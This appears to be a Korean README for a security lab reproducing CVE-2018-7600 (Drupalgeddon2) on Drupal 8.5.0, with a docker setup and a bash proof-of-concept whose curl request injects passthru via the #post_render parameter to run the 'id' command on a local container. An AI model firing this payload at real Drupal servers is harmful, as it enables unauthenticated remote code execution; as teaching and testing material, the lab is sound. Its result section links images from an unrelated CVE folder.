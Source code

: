 # CVE-2018-7600 - Drupalgeddon2 (Drupal 8.5.0 RCE)

## 1. 개요
- Drupal 8.5.0 버전에서 발생한 인증 없는 원격 코드 실행(RCE) 취약점이다.
- Form API 처리 로직의 결함을 통해 외부 사용자가 서버 명령어를 실행할 수 있다.

## 2. 취약점 원인
- Drupal이 사용자로부터 받은 `#post_render` 파라미터를 제대로 검증하지 않고 그대로 실행한다.
- 이로 인해 원격 사용자가 서버 측에서 임의의 PHP 함수나 시스템 명령어를 실행할 수 있다.

## 3. 환경 구축 (완전 자동화)

- `docker compose up -d` 명령어로 즉시 설치 완료된 Drupal 8.5.0 환경이 실행된다.

- `settings.php`, `init.sql` 설정파일 백업본 적용
- 별도의 수동 설치 과정 없이, 웹 접속 시 바로 Drupal 메인 화면을 확인할 수 있다.

**구성 자동화 방식:**
- `settings.php`: Drupal 설치 완료 상태 파일을 컨테이너 실행 시 복사
- `init.sql`: DB 초기 데이터 세팅을 컨테이너 시작 시 자동 적용

## 4. 실습 (PoC)

- PoC를 실행하는 방법은 준비된 `poc_exploit.sh` 스크립트를 실행하는 것이다.
- 해당 스크립트는 Drupal 서버에 취약한 요청을 보내고 명령어 실행 결과를 확인할 수 있다.

### PoC 스크립트 (poc_exploit.sh)
명령어 자동실행
```
#!/bin/bash

echo "[*] Drupal CVE-2018-7600 PoC 실행 중..."

response=$(curl -k -s -X POST "http://localhost:8080/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax" \
-H "Content-Type: application/x-www-form-urlencoded" \
--data "form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=passthru&mail[a][#markup]=id")

echo "[+] 서버 응답:"
echo "$response"
```

실행코드
```
chmod +x poc_exploit.sh
./poc_exploit.sh
```

## 5. 결과
[![image](https://github.com/won6c/whitehat-school-vulhub/blob/main/CVE-2021-22205/1.png)]
[![image](https://github.com/Thengelsec/kr-vulhub/raw/main/1.png)]

- PoC를 실행하는 방법은 준비된 `poc_exploit.sh` 스크립트를 실행하는 것이다.